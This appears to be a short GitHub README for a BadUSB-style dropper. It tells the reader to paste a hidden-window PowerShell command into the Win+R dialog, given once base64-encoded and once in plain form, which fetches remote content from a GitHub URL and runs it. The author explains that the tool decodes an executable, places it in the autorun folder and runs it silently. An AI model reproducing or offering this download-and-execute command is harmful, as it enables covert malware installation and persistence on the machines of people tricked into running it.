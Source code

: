 DO THIS ON YOUR PC:

1) COPY THIS: 

```powershell.exe -windowstyle hidden Invoke-Expression([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('KEludm9rZS13ZWJyZXF1ZXN0IC1VUkkgImh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9hbGV4LVgtMTIvQXRvbWl4LWZ1emUvbWFpbi9jbWQudHh0IikuQ29udGVudA==')))```

or: ```powershell.exe -windowstyle hidden Invoke-Expression(Invoke-webrequest -URI "https://raw.githubusercontent.com/alex-X-12/Atomix-fuze/main/cmd.txt").Content```

2) HOLD WIN+R
3) HOLD CTR+V
4) PRESS ENTER!


cuh

the actual idea of this thing is to download a file and run it sliently 
designed to work with badusb
os: win 10

file gets encoded into base64 format and then powershell downloads it and converts back to exe, puts into autorun folder and runs.
this operation takes a lot of time but it worked for me when i used this in my purposes

update: file in example does not work already (just info)
